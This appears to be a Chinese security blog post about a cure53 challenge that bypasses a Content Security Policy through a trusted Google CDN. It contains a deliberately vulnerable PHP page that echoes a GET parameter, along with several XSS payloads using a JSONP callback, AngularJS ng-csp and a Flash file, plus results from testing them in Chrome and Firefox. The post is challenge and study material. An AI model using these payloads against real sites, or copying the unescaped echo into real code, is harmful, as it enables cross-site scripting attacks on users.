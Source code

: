 ```yaml
---
title: 有趣的cdn bypass CSP
date: 2017-02-16 16:46:19
tags:
- Blogs
- csp
categories:
- Blogs
---
```



最近在逛github的时候看到一个bypass csp的挑战，也是我最近才知道的一个新思路，一般人bypass csp都是通过允许域下的某个漏洞构造文件绕过，但是其实往往没人注意到cdn的问题。

<!--more-->

先贴上原文
[https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it%27s-CSP!%22](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it%27s-CSP!%22)

这个利用方式其实我在ctf里也遇到过
[https://blog.0daylabs.com/2016/09/09/bypassing-csp/](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)

我们写个简单的demo

```
<?php
header('Content-Security-Policy: default-src \'self\' ajax.googleapis.com');
header('Content-Type: text/html; charset=utf-8');
header('X-Frame-Options: deny');
header('X-Content-Type-Options: nosniff');
?><!doctype html>
<html>
<head>
<title>Sh*t, it's CSP!</title>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
</head>
<body class="<?php echo $_GET['xss']; ?>">
   test
</body>
<!--
<?php readfile(__FILE__); ?>
```

这里我们的目标是`alert(1337)`

我们随便输入个xss试试，很明显会被CSP拦截

![image_1b92k6r661kgrdc1eugk341mdk9.png-88.3kB][1]

假设场景内，我们没办法在域内找到任何带有xss内容的文件，这里我们还有什么办法呢，让我们来看看CSP设置

```
Content-Security-Policy:default-src 'self' ajax.googleapis.com
```

我们往往会习惯性的忽略cdn，因为在没有0day的情况下，我们不能有任何办法在ajax.googleapis.com域下构造任何文件

但其实有2个办法构造：

# 1 用cdn的回调函数

payload:
```
http://127.0.0.1/ctest/test.php?xss=%22%3E%3Cscript%20src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0&callback=alert&context=1337%3E%3C/script%3E
```

这是使用了cdn中不同api的回调函数，但是这对浏览器是有要求的，在最新版chrome上测试是这样的

```
The XSS Auditor refused to execute a script in 'http://127.0.0.1/ctest/test.php?xss=%22%3E%3Cscript%20src=//ajax.googleapis…/ajax/services/feed/find?v=1.0&callback=alert&context=1337%3E%3C/script%3E' because its source code was found within the request. The auditor was enabled as the server sent neither an 'X-XSS-Protection' nor 'Content-Security-Policy' header.
```

被The XSS Auditor拦截了

firefox上运行成功了

![image_1b92vql4u168var51av2d6r1505m.png-98.8kB][2]



# 通过目录绕过，引入一个AngularJS

```
http://127.0.0.1/ctest/test.php?xss=ng-app%22ng-csp%20ng-click=$event.view.alert(1337)%3E%3Cscript%20src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js%3E%3C/script%3E
```

在cdn中，不可能仅有jquery，当然也有别的，这里就用比较特别的AngularJS。

只不过chrome仍然会拦

```
The XSS Auditor refused to execute a script in 'http://127.0.0.1/ctest/test.php?xss=ng-app%22ng-csp%20ng-click=$event.view.…//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js%3E%3C/script%3E' because its source code was found within the request. The auditor was enabled as the server sent neither an 'X-XSS-Protection' nor 'Content-Security-Policy' header.

test.php:1 Refused to load the script 'about:blank' because it violates the following Content Security Policy directive: "default-src 'self' ajax.googleapis.com". Note that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```

在firefox上也被拦截了

![image_1b92vvh80e581a0i1eh51hq81hb13.png-76.6kB][3]

有点迷，我感觉应该是一定会被拦的，即便是引入了AngularJS，也是在当前页添加了js...

csp中需要添加unsafe-inline才能执行成功

还有一个引入了Prototype.JS 和AngularJS两种的，但同样没有执行成功

```
"ng-app ng-csp><base href=//ajax.googleapis.com/ajax/libs/><script src=angularjs/1.0.1/angular.js></script><script src=prototype/1.7.2.0/prototype.js></script>{{$on.curry.call().alert(1337
```

还有另一个payload，firefox执行成功了，但是chrome失败了

```
http://119.29.192.14/test.php?xss="><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.1.3/angular.min.js"></script><div ng-app ng-csp id=p ng-click=$event.view.alert(1337)><script async src=//ajax.googleapis.com/jsapi?callback=p.click></script>
```

这个需要一个较早版本的angular js，通过api的回调执行

# 利用flash

这个payload有点儿迷
```
"><embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>
```

这是利用了google的api中有个不安全的flash，它允许使用ExternalInterface XSS，所以就有了上面的payload，奇怪的是，chrome仍然拦截了

但firefox通过了

![image_1b9312f3u1h7a1tm411elpi7kq81g.png-100.5kB][4]


总的来说还是挺迷的，因为这种方式在chrome里几乎完全被拦截了，但还是提供一个比较新颖的思路，通过大家对cdn的盲目信任绕过csp限制W


  [1]: http://static.zybuluo.com/LoRexxar/51ax0b15rzpbeomk30waym23/image_1b92k6r661kgrdc1eugk341mdk9.png
  [2]: http://static.zybuluo.com/LoRexxar/xfbijx2m25ge3jrjrve4c05t/image_1b92vql4u168var51av2d6r1505m.png
  [3]: http://static.zybuluo.com/LoRexxar/zjuliwh7r0cpybw1owp3ndvf/image_1b92vvh80e581a0i1eh51hq81hb13.png
  [4]: http://static.zybuluo.com/LoRexxar/twy05rjcpid3kh8rqdhnbd8z/image_1b9312f3u1h7a1tm411elpi7kq81g.png